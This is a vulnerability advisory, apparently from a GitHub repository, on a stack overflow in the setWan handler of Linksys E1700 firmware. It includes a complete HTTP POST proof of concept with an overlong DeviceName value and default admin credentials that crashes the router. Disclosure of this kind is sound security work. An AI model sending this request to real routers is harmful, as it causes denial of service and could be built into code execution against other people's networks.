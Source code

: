 # Linksys Vulnerability

Vendor:Linksys

Product:E1700

Version:E1700(1.0.0.4.003)

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)



## Vulnerability description

We found an stack overflow vulnerability in Linksys router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `mod_form.so` binary:

In the router's `setWan` function, `DeviceName、lanIp` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `DeviceName、lanIp` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter `DeviceName、lanIp` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `DeviceName` as **aaaaa......** , and the router will crash, such as:

```http
POST /goform/setWan HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 2779
Origin: http://192.168.1.1
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://192.168.1.1/network/basic.shtml;session_id=8KFwcdOYnGQSkt4b7JA6tK2orOEtfyhl
Cookie: FSSBBIl1UgzbN7N80T=10AvEXQLoH_LTmuvzkUgS7anfnAFAZXlQ.4PMSCFs3avj98CUbW5VYXmf4CkeSpLPaWxcQ000fJAH3_BOkD7VykscSuQJfxEIZbHIOwMJVLj9vWKrmgvvmPoa1KPJ3tYwIoQdq46yNEXN5dq7oZPOz5tTcDb4Nuw9qNaWSCoAnSAbounMM_u0bVaK.j00N.1T4u9XeFlZLMuY9MxXFOGPyvoHWdW0a6Bx7Mt86gLuuve7q.yaVnqOKvGvDgL3AzdKWNdO5YiPu_4RNlsYNe4m7bcnw6hDsdmjrfDZxwqCUN_8oA; FSSBBIl1UgzbN7N80S=.iPMLVrFLUcIxtwVKrClZYGZBzGzC149V9FiutQKysXJDYBDCqewOf5IavZkllZz; XSRF_TOKEN=1443376541; session_id=wxymTijRhkqwLcDL0EkyY62Yjw1n3Tkx
Upgrade-Insecure-Requests: 1

token=8KFwcdOYnGQSkt4b7JA6&langSelection=EN&connectionType=DHCP&staticIp=&staticIp_1=0&staticIp_2=0&staticIp_3=0&staticIp_4=0&staticNetmask=&staticNetmask_1=0&staticNetmask_2=0&staticNetmask_3=0&staticNetmask_4=0&staticGateway=&staticGateway_1=0&staticGateway_2=0&staticGateway_3=0&staticGateway_4=0&staticPriDns=&staticPriDns_1=0&staticPriDns_2=0&staticPriDns_3=0&staticPriDns_4=0&staticSecDns=&staticSecDns_1=0&staticSecDns_2=0&staticSecDns_3=0&staticSecDns_4=0&staticTrdDns=&staticTrdDns_1=0&staticTrdDns_2=0&staticTrdDns_3=0&staticTrdDns_4=0&pppoeUser=&pppoePass=&pppoe_service_name=&pppoeOPMode=KeepAlive&pppoeIdleTime=15&pppoeRedialPeriod=30&pptpIp=&pptpIp_1=0&pptpIp_2=0&pptpIp_3=0&pptpIp_4=0&pptpNetmask=&pptpNetmask_1=0&pptpNetmask_2=0&pptpNetmask_3=0&pptpNetmask_4=0&pptpGateway=&pptpGateway_1=0&pptpGateway_2=0&pptpGateway_3=0&pptpGateway_4=0&pptpPriDns=&pptpPriDns_1=0&pptpPriDns_2=0&pptpPriDns_3=0&pptpPriDns_4=0&pptpSecDns=&pptpSecDns_1=0&pptpSecDns_2=0&pptpSecDns_3=0&pptpSecDns_4=0&pptpTrdDns=&pptpTrdDns_1=0&pptpTrdDns_2=0&pptpTrdDns_3=0&pptpTrdDns_4=0&pptpServer=&pptp_server_1=0&pptp_server_2=0&pptp_server_3=0&pptp_server_4=0&pptpUser=&pptpPass=&pptpMode=1&pptpOPMode=KeepAlive&pptpIdleTime=15&pptpRedialPeriod=30&l2tpServer=&l2tp_server_1=0&l2tp_server_2=0&l2tp_server_3=0&l2tp_server_4=0&l2tpUser=&l2tpPass=&l2tpMode=1&l2tpOPMode=KeepAlive&l2tpIdleTime=15&l2tpRedialPeriod=30&telstraServer=&telstra_server_1=0&telstra_server_2=0&telstra_server_3=0&telstra_server_4=0&telstraUser=&telstraPass=&telstraMode=1&telstraOPMode=KeepAlive&telstraIdleTime=15&telstraRedialPeriod=30&ppp_demand=1&ppp_redialperiod=30&hostname=&domainname=&useDefaultMTU=1&bridge_connectionType=DHCP&bridgeIp=&bridgeNetmask=&bridgeGateway=&lanIp=192.168.1.1&lanIp_1=192&lanIp_2=168&lanIp_3=1&lanIp_4=1&lanNetmask=255.255.255.0&DeviceName=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&dhcp_enable=1&dhcp_start_ip_4=100&dhcp_start_ip=192.168.1.100&dhcp_end_ip=192.168.1.149&dhcp_end_ip_1=192&dhcp_end_ip_2=168&dhcp_end_ip_3=1&dhcp_end_ip_4=149&dhcp_max_num=50&dhcp_lease_minute=0&dhcp_lease=86400&dhcp_dns1=0.0.0.0&dhcp_dns1_1=0&dhcp_dns1_2=0&dhcp_dns1_3=0&dhcp_dns1_4=0&dhcp_dns2=0.0.0.0&dhcp_dns2_1=0&dhcp_dns2_2=0&dhcp_dns2_3=0&dhcp_dns2_4=0&dhcp_dns3=0.0.0.0&dhcp_dns3_1=0&dhcp_dns3_2=0&dhcp_dns3_3=0&dhcp_dns3_4=0&dhcp_wins=0.0.0.0&dhcp_wins_1=0&dhcp_wins_2=0&dhcp_wins_3=0&dhcp_wins_4=0&time_zone=PST_-08&daylight_saving_time=1
```



## Result

The target router crashes and cannot provide services correctly and persistently.
